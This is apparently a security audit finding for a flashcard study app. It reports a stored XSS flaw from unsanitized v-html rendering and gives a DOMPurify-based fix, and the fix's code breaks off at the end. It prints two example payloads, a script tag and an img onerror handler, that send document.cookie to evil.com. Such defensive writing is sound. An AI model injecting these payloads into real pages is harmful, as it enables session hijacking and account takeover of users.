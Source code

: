**Problem**:
- User-generated content (`material.content`, `flashcard.front/back`) rendered with `v-html`
- **No sanitization** before rendering
- Malicious user can inject JavaScript:
  ```html
  <script>
    // Steal session token
    fetch('https://evil.com/steal?token=' + document.cookie);
  </script>
  ```
- Affects all users viewing that card

**Attack Scenario**:
```
1. Attacker creates material with malicious content:
   Title: "JavaScript Tutorial"
   Content: "<img src=x onerror='fetch(\"https://evil.com/steal?cookie=\" + document.cookie)'>"

2. Attacker shares folder or material gets indexed

3. Victim views material in review queue

4. XSS executes in victim's browser:
   - Steals session cookie
   - Sends to attacker's server
   - Attacker hijacks victim's account
```

**Impact**:
- Session hijacking (account takeover)
- Data exfiltration (personal notes, folders)
- Malicious actions (delete all user data)
- Reputation damage (security breach)

**Fix**:
```typescript
// Install DOMPurify
// yarn add dompurify isomorphic-dompurify

// Create sanitization composable
// app/composables/useSanitize.ts
import DOMPurify from 'isomorphic-dompurify';

export function useSanitize() {
  function sanitizeHtml(dirty: string): string {
    return DOMPurify.sanitize(dirty, {
      ALLOWED_TAGS: [
        'h1', 'h2', 'h3', 'h4', 'h5', 'h6',
        'p', 'br', 'strong', 'em', 'u', 's',
        'ul', 'ol', 'li',
        'blockquote', 'code', 'pre',
        'a', 'img',
      ],
      ALLOWED_ATTR: ['href', 'src', 'alt', 'title', 'class'],
      ALLOWED_URI_REGEXP: /^(?:(?:https?|mailto):|[^a-z]|[a-z+.-]+(?:[^a-z+.\-:]|$))/i,
    });
  }

  function sanitizeText(dirty: string): string {
    // Strip all HTML, keep only text
    const temp = document.createElement('div');
    temp.textContent = dirty;
    return temp.innerHTML;
  }

  return { sanitizeHtml, sanitizeText };
```